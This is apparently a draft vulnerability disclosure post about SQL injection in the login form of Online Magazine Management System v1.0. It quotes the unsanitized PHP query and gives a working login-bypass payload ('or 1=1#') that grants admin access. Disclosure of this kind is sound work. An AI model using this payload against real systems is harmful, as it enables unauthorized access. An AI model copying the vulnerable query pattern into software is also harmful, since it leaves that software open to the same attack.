 ```yaml
---
cve: "pending..."
title: "SQL Injection in Online Magazine Management System"
images: [/images/cve-mitre.png]
date: 2022-10-10
draft: yes
tags:
- cve
- sql injection
- sqli
---
```

Login form of Online Magazine Management System v1.0 is prone to SQL injection. An attacker could exploit parameters `username` and `password` to get administrator access.
<!--more-->

- mitre: https://cve.mitre.org/

<hr />

**Description:**  
The parameters `username` and `password` are not sanitized during the login process.  
An attacker could craft a payload to bypass the login form.
No valid login or password are needed.  
The first user in the database will be returned, so usually the `admin` user.

**Details:**  
File: `/classes/Login.php`, function: `login()`, line 21:  
```
$qry = $this->conn->query("SELECT * from users where username = '$username' and password = md5('$password')");
```

**Payload:**  
```
POST /classes/Login.php?f=login
username=aaaa' or 1=1#&password=whatever
```

**PoC:**  
![cve-2022-9999](/images/cve-2022-9999.png)
